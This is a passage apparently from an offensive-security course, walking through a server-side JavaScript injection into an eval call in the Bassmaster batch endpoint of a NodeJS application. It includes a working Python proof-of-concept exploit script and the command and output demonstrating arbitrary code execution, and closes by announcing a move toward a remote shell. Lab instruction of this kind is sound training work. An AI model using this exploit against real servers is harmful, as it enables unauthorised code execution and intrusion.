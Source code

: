 Figure 1: Finding a string that will match the second group
Figure 1: Finding a string that will match the second group
As we can see, the forward slashes are essentially used as a string separator and the strings between the slashes are then grouped using the dot character as a separator, but only if the $d. pattern is matched.

In Figure 1, we attempted to inject the string ";hacked" into the original payload and managed to pass the regular expression test. Since the ";" character terminates a statement in JavaScript, we should now be able to append code to the original instruction and see if we can execute it! As a proof of concept, we can use the NodeJS util module's log method to write a message to the console.2 First, let's double check that this would work with our regular expression.

Figure 2: The payload works with the regular expression
Figure 2: The payload works with the regular expression
In Figure 2 our entire payload is grouped within Group 2, which means that we should reach the eval function and our payload should execute. Let's add this to our script and see if we get any output.

The following proof of concept can do that for us. It builds the JSON payload and appends the code of our choice to the last request entry.

import requests,sys

if len(sys.argv) != 3:
    print "(+) usage: %s <target> <cmd_injection>" % sys.argv[0]
    sys.exit(-1)
    
target = "http://%s:8080/batch" % sys.argv[1]

cmd = sys.argv[2]

request_1 = '{"method":"get","path":"/profile"}'
request_2 = '{"method":"get","path":"/item"}'
request_3 = '{"method":"get","path":"/item/$1.id;%s"}' % cmd

json =  '{"requests":[%s,%s,%s]}' % (request_1, request_2, request_3)

r = requests.post(target, json)

print r.content
Listing 15 - Proof of concept that injects JavaScript code into the server-side eval instruction

In the following instance, we are going to use a simple log function as our payload and try to get it to execute on our target server.

kali@kali:~/bassmaster$ python bassmaster_cmd.py bassmaster "require('util').log('CODE_EXECUTION');"
[{"id":"fa0dbda9b1b","name":"John Doe"},{"id":"55cf687663","name":"Active Item"},{"id":"55cf687663","name":"Item"}]
Listing 16 - Injecting Javascript code

Figure 3: Our web console shows that we have been hacked!
Figure 3: Our web console shows that we have been hacked!
Great! As shown in Figure 3 we can execute arbitrary JavaScript code on the server. Notice that the regular expression is not really sanitizing the input. It is simply making sure that the format of the user-provided URL path is correct.

A log message isn't exactly our goal though. Ideally, we want to get a remote shell on the server. So let's see if we can take our attack that far.

